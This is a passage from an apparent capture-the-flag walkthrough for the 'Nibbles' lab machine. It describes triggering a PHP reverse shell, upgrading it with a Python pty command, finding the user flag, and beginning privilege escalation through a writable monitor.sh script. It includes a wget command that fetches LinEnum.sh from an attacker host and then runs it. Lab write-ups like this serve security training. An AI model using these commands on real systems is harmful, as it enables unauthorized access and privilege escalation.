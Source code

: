 1. **Trigger the Reverse Shell:**
   * Execute the PHP script by accessing it via the browser or cURL again. This should provide you with a reverse shell.
2. **Upgrade to a Fully Interactive Shell:**
   *   Use Python to upgrade your shell:

       ```bash
       python3 -c 'import pty; pty.spawn("/bin/bash")'
       ```
   * If Python2 is not available, use Python3 as shown above.
3. **Post-Exploitation Enumeration:**
   *   Explore the filesystem and user directories. For instance:

       ```bash
       ls /home/nibbler
       ```
   * You should find `user.txt` containing the user flag and potentially other interesting files like `personal.zip`.

***

## <mark style="color:red;">Privilege Escalation on Nibbles</mark>

Now that we have a reverse shell, our next objective is to escalate privileges to the root user. We will accomplish this by leveraging the writable script we found in `personal.zip`.

<mark style="color:green;">**Steps to Privilege Escalation:**</mark>

1.  **Unzip the File:**

    * Unzip the `personal.zip` file found in the `nibbler` user's home directory.

    ```bash
    unzip personal.zip
    ```
2.  **Inspect the Script:**

    * Inspect the contents of the `monitor.sh` script.

    ```bash
    cat /home/nibbler/personal/stuff/monitor.sh
    ```

    * The script is a monitoring script, and it is writable by the `nibbler` user.
3.  **Automate Enumeration with LinEnum.sh:**

    * Download LinEnum.sh to perform automated privilege escalation checks.

    ```bash
    wget http://<your_ip>:8080/LinEnum.sh
    chmod +x LinEnum.sh
    ./LinEnum.sh
    ```

    * Start a Python HTTP server on your attack machine to serve LinEnum.sh.
